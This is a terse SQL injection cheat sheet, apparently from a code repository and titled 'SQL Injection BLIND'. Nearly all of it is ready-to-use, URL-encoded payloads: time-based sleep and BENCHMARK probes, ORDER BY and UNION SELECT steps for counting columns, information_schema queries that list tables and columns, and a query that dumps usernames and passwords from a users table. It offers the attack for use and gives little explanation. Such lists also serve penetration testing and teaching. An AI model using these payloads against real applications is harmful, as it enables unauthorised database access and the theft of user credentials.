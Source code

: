 SQL Injection BLIND
===================

Detection
---------
```sql
'+and+sleep(5)--%20
'+AND+BENCHMARK(100,SHA1(1337))--%20
'+AND+(SELECT+4057+FROM+(SELECT(SLEEP(5)))rYrD)--%20
```

Find Number of Columns
----------------------
```sql
# Monitor Responses for Differences. 
# Order by "1" should show a valid response, increase value until a different response is returned. 
'+order+by+1--%20
'+order+by+1000--%20

# Monitor Responses for Differences. 
'+UNION+SELECT+NULL--%20
'+UNION+SELECT+NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL,NULL--%20
```

Get Table Names
------------
```sql
'+union+all+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--%20
```

Get Column Names
----------------
```sql
1'+union+all+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database()--%20
```

Get Data from Columns
---------------------
```sql
'+union+all+select+1,group_concat(<columnName1>,<columnName2)+from+users--%20
'+union+all+select+1,group_concat(user,password)+from+users--%20
```
